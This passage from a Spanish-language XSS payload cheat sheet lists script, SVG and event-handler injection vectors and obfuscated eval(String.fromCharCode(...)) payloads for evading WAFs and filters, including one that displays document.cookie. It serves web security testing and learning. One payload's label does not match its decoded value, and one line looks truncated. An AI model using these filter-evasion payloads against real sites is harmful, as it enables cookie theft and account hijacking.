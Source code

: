 ```json
{"user":"admin<script>alert(1)</script>"}
```

---

**Payload usando SVG y otros elementos válidos HTML5**  
Algunos filtros permiten etiquetas SVG u otras menos comunes. Son útiles para evadir filtros anti-`<script>`.

```html
<svg/onload=alert(1)>
```

```html
<details open ontoggle=alert(1)>
```

```html
<marquee onstart=alert(1)>
```

---

**Payloads utilizando técnicas de obfuscación**  
Algunos WAFs o filtros pueden bloquear `alert`, `onerror`, etc. Puedes usar técnicas para ofuscar el código y evadir la detección.

`alert(0)`:

```html
<svg><script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>
```

`document.cookie`:

```bash
<svg><script>eval(String.fromCharCode(97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41))</script>
```

```html
<iframe srcdoc="<script>top </script>"></iframe>
```

```html
<svg><script>//--><script>alert(1)</script>
```

---

**Recomendación**: Siempre analiza el contexto exacto donde se refleja tu entrada usando las herramientas de desarrollo del navegador (F12). Una misma entrada puede necesitar un payload completamente distinto dependiendo del lugar donde se inyecta (atributo, texto, JSON, JS, etc.).

**Nota:** Recuerda siempre revisar el código fuente de la respuesta para entender en qué contexto se inserta tu payload (HTML, atributo, JavaScript inline, etc.). Esto te permitirá adaptar mejor el vector de inyección.

---

**XSS basado en el DOM (DOM-based XSS)**  
